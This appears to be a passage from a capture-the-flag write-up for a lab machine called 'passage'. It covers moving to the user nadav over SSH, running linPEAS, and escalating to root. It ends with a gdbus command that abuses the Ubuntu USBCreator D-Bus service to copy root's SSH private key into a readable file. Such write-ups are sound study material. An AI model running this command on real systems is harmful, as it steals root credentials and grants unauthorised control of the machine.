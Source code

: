 # Root

#### Lateral Movement
In authorized_keys there is `nadav` entry
<img src="./img/auth_key.png"  width="650"/>
so I can log in as nadav user with `ssh nadav@passage`

<img src="./img/nadavssh.png"  width="650"/>

Now i launch linPEAS and found the bin `dbus` with the SUID setted

<img src="./img/dbus.png"  width="650"/>

there is a exploit for dbus

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

so just follow the article and execute 

>gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/root/.ssh/id_rsa /a.txt true
